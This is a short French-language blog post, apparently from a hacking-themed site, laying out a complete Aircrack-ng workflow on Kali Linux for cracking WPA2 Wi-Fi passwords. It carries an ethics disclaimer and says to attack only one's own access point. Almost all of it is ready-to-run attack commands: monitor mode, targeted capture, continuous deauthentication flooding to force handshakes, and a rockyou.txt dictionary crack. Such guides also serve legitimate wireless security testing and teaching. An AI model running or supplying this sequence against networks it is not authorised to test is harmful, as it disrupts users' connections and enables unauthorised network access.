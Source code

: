 ```yaml
---
title: Aircrack-NG Crack WIFI WPA2 Password
time: 2024-12-19 12:00:00
categories: [Hacking]
tags: [kali,wifi,hack,cybersecurity]
image: /assets/posts/WiFi/aircrack.jpg
---
```


## 🚨 Préambule Éthique

> **ATTENTION :** Ce guide est strictement à des fins éducatives et professionnelles.


## 🚀 Aircrack-NG 


-------------------

## 🎯 Préréquis
>  Un ordinateur portable

>  Système Kali linux 

>  Adaptateur Wifi qui supporte le mode monitor 

>  Votre propre point d'acès WIFI que vous avez le droit de pirater 

-------------------


## 🛠️ Préparation de l'environnement


#### Le lien pour télécharger la machine virtuelle Kali linux.

> [Kali Virtual Machine](https://www.kali.org/get-kali/#kali-virtual-machines)


## 🎮 WORKFLOW COMPLET

### 1️⃣ Activation du Mode Monitor
```bash
# Nettoyage Initial
sudo airmon-ng check kill

# Activation du Mode Guerrier
sudo airmon-ng start wlan0
```

### 2️⃣ Reconnaissance du Terrain
```bash
# Scan des Environs
sudo airodump-ng wlan0mon
```

### 3️⃣ Ciblage Précis
```bash
# 🎯 Focus sur la Cible
sudo airodump-ng -c [CANAL] --bssid [MAC] -w capture wlan0mon
```

### 4️⃣ Capture Stratégique
```bash
# ⚡ Déauthentification Tactique
sudo aireplay-ng --deauth 0 -a [MAC] wlan0mon
```

### 5️⃣ Analyse Finale
```bash
# 🔓 Tentative de Déchiffrement
sudo aircrack-ng -w rockyou.txt capture-01.cap
```

-------------------

